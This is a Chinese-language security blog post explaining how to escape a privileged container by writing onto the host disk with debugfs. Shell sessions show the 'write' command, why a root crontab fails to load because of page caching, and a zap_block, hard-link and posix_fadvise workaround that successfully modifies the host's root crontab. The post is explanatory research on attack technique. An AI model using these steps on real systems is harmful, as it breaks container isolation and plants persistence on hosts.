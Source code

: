 ```yaml
---
layout: post
title: debugfs在容器逃逸中的作用
---
```

## 0x00 前言
[红蓝对抗中的云原生漏洞挖掘及利用实录](https://security.tencent.com/index.php/blog/msg/183)中提到，在特权容器、`sys_admin`、`lxcfs`场景下，我们可以通过创建`cgroup devices subsystem`,修改`devices.allow`设置设备的访问权限，创建设备文件目录，并通过debugfs去访问宿主机的文件，达到逃逸的目的；由于`debugfs`不支持很多常用`linux`的命令，如`cp、echo`等，我们不能很方便的写文件到宿主机，虽然实战中我们可以通过cat命令去读取k8s的配置文件，但是如果需要写文件到宿主机，这时候该怎么办呢？
## 0x01 什么是debugfs
- debugfs - ext2/ext3/ext4 file system debugger

debugfs主要用来对ext2/ext3/ext4文件系统进行调试，可以用来恢复文件，更多使用[参考](https://man.archlinux.org/man/debugfs.8.en)  
## 0x02 debugfs中的write和zap_block
`debugfs`的`write`和`zap_block`命令可以写入文件，我们分别来介绍它们。  
write:
```html
write source_file out_file
    Copy the contents of source_file into a newly-created file in the filesystem named out_file.
```
通过`write`命令我们可以将容器中的文件复制到宿主机中。
演示：
实验环境：特权ubuntu容器  
```shell
#在容器的bash中
root@4da29cbf878a:/tmp$ echo test > /tmp/testfile.txt
debugfs -w /dev/sda1 #读写模式打开/dev/sda1
debugfs 1.45.5 (07-Jan-2020)
debugfs:  cd /tmp                 
debugfs:  write /tmp/testfile.txt testfile-host.txt #将容器中的/tmp/testfile.txt文件复制到宿主机的tmp目录中
Allocated inode: 787881
debugfs:  cat testfile-host.txt #读取复制的文件成功
test

#回到宿主机
ubuntu1@123:/tmp$ ls -l testfile-host.txt 
-rw-r--r-- 1 root root 5 Jun 17 10:44 testfile-host.txt
```
可以看到，这里是可以读取的，并且文件是正常没有损坏的；如果我们写入一个计划任务，可能就不行了
```bash
root@4da29cbf878a:/tmp$ echo '* * * * * echo test1 >> /tmp/testfile1.txt' > root   
root@4da29cbf878a:/tmp$ debugfs -w /dev/dm-0
debugfs 1.45.5 (07-Jan-2020)
debugfs:  cd /var/spool/cron/crontabs
debugfs:  write /tmp/root root
Allocated inode: 135695
debugfs:  

#回到宿主机
ubuntu1@123:/tmp$ sudo ls -l /var/spool/cron/crontabs/
ls: cannot access '/var/spool/cron/crontabs/root': No such file or directory
total 0
-????????? ? ? ? ?            ? root
```
可以看到，此时的文件是有问题的，这样是不能执行计划任务的,通过查阅资料<https://www.intezer.com/blog/cloud-security/royal-flush-privilege-escalation-vulnerability-in-azure-functions/>  
文章中提到
```
Unfortunately, due to the same constraint we explained with the write cache, 
changes to /dev/sda5 would not propagate to the view of the /etc/passwd file 
until its cached pages are discarded. Meaning, we were only able to overwrite 
files that were not recently loaded from disk to memory, or otherwise wait 
for a system restart for our changes to apply. 
```
由于`crontabs`目录下的文件会不停的从磁盘中加载到内存，我们写的文件是有缓存的，只有等到重启才能够成功，然而实战情况不可能让你重启系统，所以如果使用write去复制文件到宿主机，不能够操作类似于计划任务这种不间断需要从磁盘加载到内存的文件。  
接着学习前面的文章：
```
This hard link still requires root permissions to edit, so we still had to use zap_block
to edit its content. We then used posix_fadvise to instruct the kernel to 
discard pages from the read cache (flush them, hence the name of the technique), 
inspired by a project named pagecache management (source: fadv.c slightly edited by us). 
This caused the kernel to load our changes and we were finally able to propagate them to the Docker host filesystem:
```
文中提到了通过`zap_block`去修改文件，再通过`ln`将修改成功的宿主机文件链接到容器中`upperdir`目录下，再通过 `posix_fadvise`从缓存中丢弃，这样就能够避免缓存的影响:
```shell
root@1fae4e0f04c8:/tmp$ debugfs -w /dev/dm-0
debugfs 1.45.5 (07-Jan-2020)
debugfs:  blocks /var/spool/cron/crontabs/root #获取文件的blocks
2694190
debugfs:  zap_block -o 15 -l 3 -p 0x41 2694190 #将ascii值为41的字符写入到第15个位置，向后替换3位
debugfs:  ln /var/spool/cron/crontabs/root /var/lib/docker/overlay2/fb877e934027ebf552cffe9e7cac5b84512c575c75f5008c3f58ccc277e7c62f/diff/tmp/
debugfs:  q
root@1fae4e0f04c8:/tmp$ ./fav root  #丢弃数据，避免缓存影响
```
这里我们通过`zap_block`修改了blocks为2694190的文件，也就是我们的/var/spool/cron/crontabs/root文件，从15位开始，向后3个长度，替换为ASCII值为41的字符A。修改完了之后再通过posix_fadvise，立即从`page cache`中丢弃数据，这样就不会有页面缓存的问题，编译的fav文件参考<https://github.com/tsarpaul/pagecache-management/blob/master/fadv.c>  
这时我们返回宿主机，查看root用户的计划任务:
```bash
ubuntu1@123:~$ sudo cat /var/spool/cron/crontabs/root
* * * * * echo AAAt >> /tmp/root1.txt
```
可以看到，已经成功写入并不受缓存影响。

# 0x03 参考
- https://security.tencent.com/index.php/blog/msg/183
- https://github.com/tsarpaul/pagecache-management/blob/master/fadv.c
- https://www.intezer.com/blog/cloud-security/royal-flush-privilege-escalation-vulnerability-in-azure-functions/
- https://man.archlinux.org/man/debugfs.8.en
